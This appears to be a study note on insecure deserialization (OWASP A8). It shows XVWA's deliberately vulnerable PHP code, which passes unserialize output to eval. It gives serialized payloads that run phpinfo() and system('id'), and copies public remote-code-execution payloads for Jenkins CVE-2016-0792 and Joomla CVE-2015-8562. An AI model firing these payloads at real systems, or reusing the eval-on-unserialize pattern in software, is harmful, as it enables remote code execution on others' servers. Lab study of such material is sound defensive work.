 # A8 - Insecure Deserialization


## XVWA

Target url:

`/xvwa/vulnerabilities/php_object_injection/?r=a:2:{i:0;s:4:%22XVWA%22;i:1;s:33:%22Xtreme%20Vulnerable%20Web%20Application%22;}`

Vulnerable code:

```
<?php 
    error_reporting(E_ALL);
    class PHPObjectInjection{
        public $inject;

        function __construct(){

        }

        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);
            }
        }
    }
//?r=a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}
    if(isset($_REQUEST['r'])){  

        $var1=unserialize($_REQUEST['r']);
        

        if(is_array($var1)){ 
            echo "
".$var1[0]." - ".$var1[1];
        }
    }else{
        echo "parameter is missing";
    }
?>
```

PHP Code injection

`O:18:"PHPObjectInjection":1:{s:6:"inject";s:10:"phpinfo();";}`

without restrictions

`O:18:"PHPObjectInjection":1:{s:6:"inject";s:13:"system('id');";}`

`O:18:%22PHPObjectInjection%22:1:{s:6:%22inject%22;s:13:%22system(%27id%27);%22;}`


## From slides

### Jenkins CVE-2016-0792

```
<map>
  <entry>
    <groovy.util.Expando>
      <expandoProperties>
        <entry>
          <string>hashCode</string>
          <org.codehaus.groovy.runtime.MethodClosure>
            <delegate class="groovy.util.Expando" reference="../../../.."/>
            <owner class="java.lang.ProcessBuilder">
              <command>
                <string>open</string>
                <string>/Applications/Calculator.app</string>
              </command>
              <redirectErrorStream>false</redirectErrorStream>
            </owner>
            <resolveStrategy>0</resolveStrategy>
            <directive>0</directive>
            <parameterTypes/>
            <maximumNumberOfParameters>0</maximumNumberOfParameters>
            <method>start</method>
          </org.codehaus.groovy.runtime.MethodClosure>
        </entry>
      </expandoProperties>
    </groovy.util.Expando>
    <int>1</int>
  </entry>
</map>
```

### CVE-2015-8562 - Joomla! 1.5 < 3.4.5 - Object Injection Remote Command Execution

```
"X-Forwarded-For" : "}__test|O:21:\"JDatabaseDriverMysqli\":3:{s:2:\"fc\";O:17:\"JSimplepieFactory\":0:{}s:21:\"\\\\0\\\\0\\\\0disconnectHandlers\";a:1:{i:0;a:2:{i:0;O:9:\"SimplePie\":5:{s:8:\"sanitize\";O:20:\"JDatabaseDriverMysql\":0:{}s:8:\"feed_url\";s:165:\"eval(chr(101).chr(99).chr(104).chr(111).chr(40).chr(109).chr(100).chr(53).chr(40).chr(49).chr(51).chr(51).chr(56).chr(41).chr(41).chr(59));JFactory::getConfig();exit\";s:19:\"cache_name_function\";s:6:\"assert\";s:5:\"cache\";b:1;s:11:\"cache_class\";O:20:\"JDatabaseDriverMysql\":0:{}}i:1;s:4:\"init\";}}s:13:\"\\\\0\\\\0\\\\0connection\";b:1;}\\xf0\\xfd\\xfd\\xfd"
```
